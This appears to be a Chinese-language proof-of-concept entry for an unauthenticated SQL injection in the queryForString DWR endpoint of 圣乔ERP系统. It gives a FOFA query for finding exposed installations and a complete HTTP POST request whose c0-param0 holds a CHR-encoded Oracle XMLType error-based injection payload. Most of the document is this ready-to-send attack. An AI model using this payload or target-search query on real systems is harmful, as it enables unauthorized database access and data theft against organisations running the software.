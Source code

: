 # 圣乔ERP系统queryForString存在SQL注入漏洞

圣乔ERP系统 queryForString 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
title="圣乔ERP系统"
```

## poc

```javascript
POST /erp/dwr/call/plaincall/NamedParameterSingleRowQueryConvertor.queryForString.dwr HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

c0-id=0
batchId=0
callCount=1
c0-param1=Object_Object:{}
page=/erp/dwr/test/NamedParameterSingleRowQueryConvertor
httpSessionId=47CA299619667847F1BB450454E6C2D4
scriptSessionId=F3F037EB7A5102043AD4CEB47EB17A7275
c0-scriptName=NamedParameterSingleRowQueryConvertor
c0-methodName=queryForString
c0-param0=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (99=99) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(122)||CHR(118)||CHR(113)||CHR(62))) FROM DUAL)
```

![image-20241211210001578](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112100655.png)